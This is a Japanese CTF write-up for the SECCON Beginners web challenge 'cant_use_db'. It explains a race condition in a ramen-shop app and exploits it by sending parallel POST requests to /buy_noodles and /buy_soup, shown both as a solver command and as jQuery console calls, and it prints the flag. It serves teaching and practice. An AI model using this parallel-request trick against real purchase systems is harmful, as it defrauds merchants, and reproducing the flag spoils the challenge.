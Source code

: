 # cant_use_db

## 問題文
Can't use DB.  
I have so little money that I can't even buy the ingredients for ramen.  
🍜  
[https://cant-use-db.quals.beginners.seccon.jp/](https://cant-use-db.quals.beginners.seccon.jp/)  
[cant_use_db.tar.gz](files/cant_use_db.tar.gz) 1cded20dd165e1eca3cc12bee2010e65fe6ba9ea  

## 難易度
**Medium**  

## 作問にあたって
通常のrace condition問です。  
もう少し時間についてシビアにしたかったですが、通信環境が悪い方々も解けるようsleepを長めに挿入しました。  
そのためボタンを連打することで解けてしまった方も一定数いたようで、醍醐味を味わえなくなってしまい申し訳ないです。  
"なんか解けた"→"理由を調べる"を行っていただけると良いと思います。  
コードがクソだと感じたあなたは正常です。  

## 解法
ソースを見ると、ユーザ情報はファイル管理のようだ。  
所持金以上のものを買うサイトから見てもrace conditionを狙う。  
購入処理で`/buy_noodles`、`/buy_soup`へPOSTを投げているようだ。  
並列にPOSTを投げてやればよい。  
```bash
$ python solver.py
~~~
ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}
```
ブラウザのコンソールで以下を実行した後`/eat`へアクセスしてもよい。  
```javascript
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
```

## ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}
